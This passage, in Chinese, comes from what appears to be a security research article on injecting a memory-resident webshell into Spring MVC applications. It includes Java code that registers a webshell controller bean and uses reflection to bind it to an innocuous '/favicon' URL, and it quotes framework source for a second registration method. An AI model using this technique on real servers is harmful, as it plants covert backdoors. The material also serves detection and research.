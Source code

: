 

该方法接受 `urlPath`参数和 `handler`参数，可以在 `this.getApplicationContext()` 获得的上下文环境中寻找名字为 `handler` 参数值的 `bean`, 将 url 和 controller 实例 bean 注册到 `handlerMap` 中。

相关示例代码和解释如下：

```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```



#### 方法三：detectHandlerMethods

参考上面的 `HandlerMapping` 接口继承关系图，针对使用 `RequestMappingHandlerMapping` 映射器的应用，可以找到它继承的顶层类

```java
org.springframework.web.servlet.handler.AbstractHandlerMethodMapping
```

进入查看代码，发现其中有一个`detectHandlerMethods` 方法，代码如下：

```java
protected void detectHandlerMethods(Object handler) {
	Class<?> handlerType = handler instanceof String ? this.getApplicationContext().getType((String)handler) : handler.getClass();
	final Class<?> userType = ClassUtils.getUserClass(handlerType);
	Set<Method> methods = HandlerMethodSelector.selectMethods(userType, new MethodFilter() {
		public boolean matches(Method method) {
			return AbstractHandlerMethodMapping.this.getMappingForMethod(method, userType) != null;
		}
	});
	Iterator var6 = methods.iterator();
	while(var6.hasNext()) {
		Method method = (Method)var6.next();
		T mapping = this.getMappingForMethod(method, userType);
		this.registerHandlerMethod(handler, method, mapping);
	}
}
```



该方法仅接受`handler`参数，同样可以在 `this.getApplicationContext()` 获得的上下文环境中寻找名字为 `handler` 参数值的 `bean`, 并注册 `controller` 的实例 `bean`。

示例代码如下：
